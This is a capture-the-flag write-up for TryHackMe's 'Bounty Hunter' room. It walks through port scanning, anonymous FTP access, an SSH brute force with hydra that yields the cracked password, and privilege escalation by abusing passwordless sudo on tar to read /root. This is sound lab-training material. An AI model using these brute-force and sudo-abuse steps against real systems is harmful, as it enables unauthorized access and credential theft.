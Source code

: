 
# Index

1. [Setup](#setup)
2. [Enumeration](#enumeration)
3. [Gaining Access](#gaining-access)
4. [Privilage Escalation](#privilage-escalation)
5. [Conclusion](#conclusion)

## Setup

To begin this challenge, we first need to connect to the tryhackme VPN server. You can get more information regarding this by visiting the [Access](https://tryhackme.com/access) page.

I'll be using `openvpn` to connect to the server. Here's the command:

```console
$ sudo openvpn --config NovusEdge.ovpn
```

## Enumeration

Now that we're connected to the TryHackMe server, we can proceed with enumerating the target machine. First, we need to check for open ports on the target:

> Be sure to deploy the machine before proceeding >.>

```console
$ sudo nmap -sS -p- -v MACHINE_IP
...
...
Discovered open port 80/tcp on MACHINE_IP
Discovered open port 22/tcp on MACHINE_IP
Discovered open port 21/tcp on MACHINE_IP
...
PORT      STATE  SERVICE         REASON
...
21/tcp    open   ftp             syn-ack ttl 63
22/tcp    open   ssh             syn-ack ttl 63
80/tcp    open   http            syn-ack ttl 63
...
...
```

We now know that the target machine has 3 open ports: `21`, `22` and `80` for services: `ftp`, `ssh` and `http` respectively.

We can now use this to work our way to gaining access into the target machine...

## Gaining Access 

Let's first proceed with trying to log into the ftp server on the target using the `ftp` command:

```console
$ ftp MACHINE_IP
Connected to MACHINE_IP.
220 (vsFTPd 3.0.3)
Name (MACHINE_IP:novusedge): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files. 
ftp> 
```

Using the username: `anonymous` granted us access to the ftp server. Now we can check for any files that we can grab:

```console
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
```

There are 2 files, `locks.txt` and `task.txt`. We can download them to our local machine like so:

```console
ftp> get locks.txt

ftp> get task.txt
```

Now, since we have the files, let's exit out, and check the contents of the files thus obtained...

task.txt: 
```txt
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

locks.txt:
```txt
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```

From the contents of the first file, we get the answer to the third task on the challenge.

> Who wrote the task list?
> > Answer: lin

As the fourth task suggests, the file: `locks.txt` contains possible passwords for the ssh service on the target machine. Assuming that `lin` is the username we use for logging into the ssh server, we can brute-force this by using a tool like `hydra`:


```console
$ hydra -l lin -P locks.txt MACHINE_IP ssh
...
[22][ssh] host: MACHINE_IP   login: lin   password: RedDr4gonSynd1cat3
...
```

This gives us the answer to fifth task:
> What is the users password? 
> > RedDr4gonSynd1cat3

Let's try logging into the ssh server on the target with the credentials we've obtained:

```console
$ ssh lin@MACHINE_IP 
lin@MACHINE_IP's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Thu Jun 23 13:06:21 2022 from 10.11.69.69

lin@bountyhacker:~/Desktop$
```

We can get the user flag from lin's home directory:

```console
lin@bountyhacker:~/Desktop$ ls
user.txt

lin@bountyhacker:~/Desktop$ cat user.txt
R̶̛̛̛̻͉̜͒͋̀̈́͛͘͠E̷̲̓̋D̸̤͔̒A̷̘̝̞͓̞̰̋́̾̑̈̐̓̊̕͝C̵͚͍̥̬͇̠͎͎̯̏͑̂̈́̀̽̅̔͜T̶̡͍̭̎̒́̆̈Ê̶̦̙̬͙̠̯̰̱̏̕͜D̶͕̮̀̂̾͗̀͛̅͘͘͝
```

This gives us the answer to the 6th task:
> user.txt
> > R̶̛̛̛̻͉̜͒͋̀̈́͛͘͠E̷̲̓̋D̸̤͔̒A̷̘̝̞͓̞̰̋́̾̑̈̐̓̊̕͝C̵͚͍̥̬͇̠͎͎̯̏͑̂̈́̀̽̅̔͜T̶̡͍̭̎̒́̆̈Ê̶̦̙̬͙̠̯̰̱̏̕͜D̶͕̮̀̂̾͗̀͛̅͘͘͝


## Privilage Escalation

Now that we have a foothold, we can now proceed with getting root privilages :3
First, let's check if we have any commands we can execute with root privilages and no passwords:

```console
lin@bountyhacker:~/Desktop$ sudo -ll
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:

Sudoers entry:
    RunAsUsers: root
    Commands:
	/bin/tar
```

Interesting...We can use the `tar` command as root without passwords. Assuming that the `root.txt` is in the `/root/` directory, we can use the following to create a tar archive of all files in the `/root/` directory in `/home/lin/Desktop`:

```console
lin@bountyhacker:~/Desktop$ sudo tar -cf files.tar /root
tar: Removing leading `/' from member names

lin@bountyhacker:~/Desktop$ ls
files.tar  user.txt

# Uncompressing the tar archive to get the files:
lin@bountyhacker:~/Desktop$ tar -xf files.tar 
lin@bountyhacker:~/Desktop$ ls -l
-rw-r--r-- 1 root root 20480 Jun 23 13:21 files.tar
drwx------ 5 lin  lin   4096 Jun  7  2020 root
-rw-rw-r-- 1 lin  lin     21 Jun  7  2020 user.txt

lin@bountyhacker:~/Desktop$ ls -l root/
total 4
-rw-r--r-- 1 lin lin 19 Jun  7  2020 root.txt
```

We can now just `cat` the contents of our `root.txt` file thus obtained:

```console
lin@bountyhacker:~/Desktop$ cat root/root.txt 
R̶̛̛̛̻͉̜͒͋̀̈́͛͘͠E̷̲̓̋D̸̤͔̒A̷̘̝̞͓̞̰̋́̾̑̈̐̓̊̕͝C̵͚͍̥̬͇̠͎͎̯̏͑̂̈́̀̽̅̔͜T̶̡͍̭̎̒́̆̈Ê̶̦̙̬͙̠̯̰̱̏̕͜D̶͕̮̀̂̾͗̀͛̅͘͘͝
```

Done! This gives the answer to the final task.

> root.txt
> > R̶̛̛̛̻͉̜͒͋̀̈́͛͘͠E̷̲̓̋D̸̤͔̒A̷̘̝̞͓̞̰̋́̾̑̈̐̓̊̕͝C̵͚͍̥̬͇̠͎͎̯̏͑̂̈́̀̽̅̔͜T̶̡͍̭̎̒́̆̈Ê̶̦̙̬͙̠̯̰̱̏̕͜D̶͕̮̀̂̾͗̀͛̅͘͘͝

## Conclusion

I hope this writeup was useful. Personally, I found this room to be quite a fun little experience. If you liked this, please consider dropping a star and/or following me on github: https://github.com/NovusEdge

***

- Room  : [Bounty Hunter](https://tryhackme.com/room/cowboyhacker) by [Sevuhl](https://tryhackme.com/p/Sevuhl)
- Author: Aliasgar Khimani
